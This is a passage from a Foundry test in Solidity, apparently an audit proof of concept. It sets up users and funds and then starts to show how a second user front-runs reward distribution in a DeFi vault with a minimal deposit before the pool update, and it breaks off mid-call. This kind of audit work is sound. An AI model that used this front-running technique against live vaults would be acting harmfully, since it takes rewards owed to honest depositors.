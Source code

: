 ```solidity 

        vm.label(vault, "Vault");
        vm.label(strategy, "Strategy");

        // Create test users
        user1 = makeAddr("user1");
        user2 = makeAddr("user2");
        
        // Fund accounts
        vm.deal(user1, 100 ether);
        vm.deal(user2, 100 ether);
        deal(wavax, user1, 100 ether);
        deal(usdc, user1, 10000e6);
        deal(wavax, user2, 100 ether);
        deal(usdc, user2, 10000e6);
        
        // Approve tokens
        vm.startPrank(user1);
        IERC20(wavax).approve(vault, type(uint256).max);
        IERC20(usdc).approve(vault, type(uint256).max);
        vm.stopPrank();
        
        vm.startPrank(user2);
        IERC20(wavax).approve(vault, type(uint256).max);
        IERC20(usdc).approve(vault, type(uint256).max);
        vm.stopPrank();
        
        // Use WAVAX as reward token for simplicity
        rewardToken = wavax;
    }

    function test_RewardFrontRunning() public {
        // STEP 1: User1 deposits a significant amount and has been providing liquidity for a while
        console.log("===== STEP 1: User1 deposits a significant amount =====");
        vm.startPrank(user1);
        (uint256 user1Shares,,) = IOracleVault(vault).deposit(
            50 ether,
            1000e6,
            1
        );
        vm.stopPrank();
        
        console.log("User1 shares:", user1Shares);
        
        // STEP 2: Simulate passage of time (1 day)
        console.log("===== STEP 2: Time passes (1 day) =====");
        vm.warp(block.timestamp + 1 days);
        
        // STEP 3: Add rewards to the vault
        // In a real scenario, these might come from trading fees, external sources, etc.
        console.log("===== STEP 3: 1000 AVAX rewards are added to the vault =====");
        deal(rewardToken, address(vault), 1000 ether);
        
        // At this point, rewards have been added but _updatePool hasn't been called yet
        // This is the vulnerable state where front-running can occur
        
        // STEP 4: User2 front-runs with a tiny deposit before _updatePool is called
        console.log("===== STEP 4: User2 front-runs with a minimal deposit =====");
        vm.startPrank(user2);
        (uint256 user2Shares,,) = IOracleVault(vault).deposit(
            0.01 ether, // Minimal deposit
            0.2e6,
            1
```